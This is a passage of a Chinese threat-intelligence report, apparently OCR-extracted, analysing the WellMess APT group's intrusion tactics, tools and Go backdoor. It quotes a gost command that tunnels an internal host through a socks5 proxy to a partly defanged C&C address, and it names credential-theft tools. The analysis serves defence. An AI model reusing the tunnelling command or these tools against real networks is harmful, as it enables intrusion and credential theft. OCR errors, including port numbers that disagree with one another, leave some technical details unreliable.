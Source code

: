 ### 2.攻击技战术分析  

该组织针对攻击目标进行了复杂的网络渗透，我们通过日志对其攻击流程进行了部分还原：  

![](https://cdn-mineru.openxlab.org.cn/extract/7d232687-82c0-4e26-bc20-dfcb5585801e/e96fc097d3b450fbf2967a9e6691b8fef6d596e685f5fcb7e20d8c2b42fc586c.jpg)  

#### 后门与持久化  

在通过对公网服务器的攻击并取得一定权限后，下发并启动WelIMess专用后门，用于维持shell权限，后门会定时反向连接C&C，通过远程控制命令完成操作。由于该后门的主要目标为服务器系统，考虑到服务器很少重启，所以其自身没有内置设计持久化功能。后门的持久化，往往通过攻击组件为其添加计划任务，或者通过远程桌面操作手动添加以及AD域策略下发等方式。  

#### 信息收集  

在信息收集方面，主要利用系统自带工具收集本地信息，包括systeminfo、ipconfig、WMIC等。还会使用第三方工具收集，如LaZagne Project、mimikatz收集密码，使用ADFIND收集域相关信息。  

#### 内网端口转发  

在内网渗透过程中，可能会存在网络访问限制，攻击者通过端口转发来穿透内网，搭建跳板机对其他内网主机进行扫描和进一步的攻击。WelIMess在渗透过程中采用了一个名为gost的开源工具,通过它实现加密隧道传输。  

如相关工具日志中最常出现的一条命令：  

L=rtep://:10826/192. 168.0.250:49615   
-F=socks5://HfsUYXXSXTp79Z:W4Ex15kbtinrDMpQ1JfxQKHbxLoRr70103[. ]253[. ]41[. ]102:8673  

其含义为：将原103[.]253[.]41[.]102这个C&C的8673端口数据，通过s0cks5代理链转发到本地192.168.0.250的49645端口。攻击者访问C&C的8673端口，通过加密隧道，相当于直接访问目标机器的49625端口。  

#### 横向移动  

我们从日志中发现，攻击者有利用powershell访问其他机器的IPC\$资源，以及利用远程桌面登陆到不同主机的行为，说明内网多台机器遭受了横向移动攻击。  

### 3.攻击组件分析  

落地的攻击组件主要分为三种，一种是后门组件，另外一种是后门注册持久化工具，还有第三方渗透测试工具。  

<html><body><table><tr><td>分类数量</td><td>命名</td></tr><tr><td>后门组件3例</td><td>WellMessHello</td></tr><tr><td rowspan="2"></td><td>WellMessBotlib</td></tr><tr><td>WellMessNet</td></tr><tr><td>持久化组件1例</td><td>WellMess Task</td></tr><tr><td rowspan="3">第三方工具4例</td><td>Gost</td></tr><tr><td>mimikatz</td></tr><tr><td>LaZagne Project</td></tr><tr><td></td><td>ADFIND</td></tr></table></body></html>  

后门组件  

在发现的后门组件中，不同的中招目标几乎没有找到相同MD5的后门，但是大部分样本间都能找到相似的特征。其中主要归类为两种，Windows和Linux上共用的GO版本，以及Windows上专有的.Net版本。由于GO类型后门较大，在捕捉的样本中，部分样本加有UPX壳。  

#### GO类型后门  

GO类型后门拥有很强的跨平台能力，只要一套源码上进行更改就可以同时在多个平台使用。该类后门也有两种，一种是未封装的版本，一种是封装成botlib类的版本。  

未封装的版本我们命名为WelIMess_Hello，其主要功能简单，主要是作为渗透过程中的一个shel驻留。主要功能函数如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/7d232687-82c0-4e26-bc20-dfcb5585801e/a52cea6bb5d2c237527c1fe22c38ca17c1d3606533da2f281b01168562c6f98d.jpg)  

首先收集本地用户名、IP信息并连接成字符串，然后计算MD5 hash作为用户ID发送给远程服务器。  

